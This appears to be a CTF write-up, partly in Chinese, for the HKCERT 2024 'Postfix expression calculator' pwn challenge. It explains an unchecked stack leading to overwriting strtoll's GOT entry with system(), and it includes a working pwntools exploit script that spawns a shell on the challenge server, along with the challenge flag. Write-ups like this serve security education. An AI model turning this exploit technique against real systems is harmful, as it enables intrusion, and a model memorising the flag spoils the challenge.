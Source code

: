 # pwn - Postfix expression calculator Writeup

---  

![pic](pic/postfix-calc.png)

  
## FLAG：
`hkcert24{aN0ther_K1nD_0f_Stack_0fverfl0w}`
  
## 觀察：

- 題目有實作一個stack，他並沒有檢查boundary，因此可以執行Arbitrary write。
- Partial RELRO，可以進行GOT hijacking。 

  
## 目標：

- 透過計算機的運算與pop()、push()，將`strtoll()`的GOT調整成`system()`的address，再用`0x;sh`觸發shell的執行。其中，要避免更動到`stack_top`與`__ctype_b_loc`的GOT，否則`isspace()`會segmentation fault。

## Exploit：  

  

```python
from pwn import *
  
libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
system_addr  = libc.symbols['system']
strtoll_addr = libc.symbols['strtoll']
  
# r = process("env/chal/src/chal")
r = remote("c54-profix-calc.hkcert24.pwnable.hk", 1337, ssl=True)
r.recvuntil(b'expression(e.g. 9 6 - 11 *): ')
payload = b"* * * * * * * * + + * + + + 0 * " +str(system_addr-strtoll_addr).encode() + b" + + 0x;sh"
r.sendline(payload)
r.interactive()
```


![pic](pic/flag.png)